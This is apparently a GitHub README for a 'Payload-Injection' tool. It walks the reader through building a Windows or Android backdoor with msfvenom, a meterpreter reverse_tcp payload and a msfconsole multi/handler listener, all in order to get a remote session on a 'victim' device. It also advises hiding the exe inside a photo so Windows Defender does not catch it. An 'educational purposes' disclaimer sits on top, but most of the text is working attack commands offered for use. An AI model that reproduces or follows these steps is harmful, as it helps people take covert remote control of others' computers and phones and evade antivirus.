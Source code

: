 # [+]Warning!!
--------------------------------------------------------------------------------------------
Welcome everyone

This tool is for educational purposes only, and our goal is not to make people victims or cause any kind of danger we are not responsible for any damages due to improper use


# [+]About
--------------------------------------------------------------------------------------------
This is a payload creation machine Tool , To make something like back door and so one to completely remote a PC or android phone Just one click on the file "exe, apk" 
and u will be able to open a session and tunnel with your victim’s device with msfcosnsole Have a good time Good bye my friend …


 # [+]How to Download
open you terminal as root " be careful with your path "

git clone https://github.com/Essam0o/Payload-Injection.git


 # [+]How to Run
--------------------------------------------------------------------------------------------
After preparing your payload via Payload-injection tool you can open msfconsole and lunch your paylaod which has been created open your terminal as a root in any path and type

**sudo su**

**msfvenom -p windows/meterpreter/reverse_tcp -f exe lhost = your ip lport = 4444 > FileName .exe**

if you build up a paylaod for android you will change the windows to android and so on 

u can get your ip from terminal type **sudo ifconfig**

Then wait to complete download the file and check your path on your os
  
**msfconsole**

wiat proccess// 


**use exploit/multi/handler**

**set payload windows/meterpreter/reverse_tcp**


**set lhost   enter your ip**

**set lport 4444**

**run**

 HERE WE ARE DONE OF CREATING A VIRUS ALL U NEED TO WAIT THE VICTIM TO CLICK ON THE APK  OR EXE FILE
 
 Tip 
 
 
 you can merge yout exe file in a photo to prevent windows defenter detect the virus , or merge it by the way you like it

Happy hacking , Good luck friend
